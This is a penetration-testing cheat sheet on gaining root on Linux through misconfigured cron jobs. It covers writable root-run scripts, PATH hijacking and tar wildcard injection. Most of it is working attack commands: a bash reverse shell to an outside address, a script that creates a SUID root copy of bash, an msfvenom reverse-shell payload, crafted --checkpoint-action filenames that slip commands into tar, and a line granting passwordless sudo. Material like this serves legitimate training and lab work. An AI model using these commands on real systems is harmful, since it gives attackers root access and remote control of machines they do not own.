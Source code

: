 # Cronjobs

## Cron Jobs - File Permissions

- Check if the cronjobs are run by the root user
- If the script being executed by the root user has write permissions then you can set up a connection to your attacking machine with the following.
- `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`

## Cron Jobs - Path Environmental Variables

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

- If the crontab looks like the above & if there is a directory in the PATH that you can control, then create a file `overwrite.sh` inside the /home/user directory.
- **overwrite.sh**
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
- `chmod +x /home/user/overwrite.sh;`
- As soon as the cron runs, you can run the rootbash shell as follows - `cd /tmp; ./rootbash -p`
- You will be gaining the shell with root privileges


## Cron Jobs - Wildcards

- Often try and explore the contents of the cronjob script
- check if any programs used are falling in the purview of GTFObins, if the answer is YES you can exploit it.
- Let us say that the tar command is being used to compress files, and especially if there is a wildcard entry * then you can create files inside the directory which is supposed to be compressed & inject your payloads through to the tar file
- First generate the payload using msfvenom - `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.112.115 LPORT=4444 -f elf -o shell.elf`
- Ship `shell.elf` to the target machine & do a `chmod +x shell.elf`
- Create a couple of files with touch as follows - `touch --checkpoint=1;touch --checkpoint-action=exec=shell.elf;`
- now let the cronjob run & you create a listener on your attacking machine & you will nicely get a reverse stageless shell.


- We can also do something like this

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"


After the cronjob executes, it must have executed that script, giving ourselves the sudo access

```


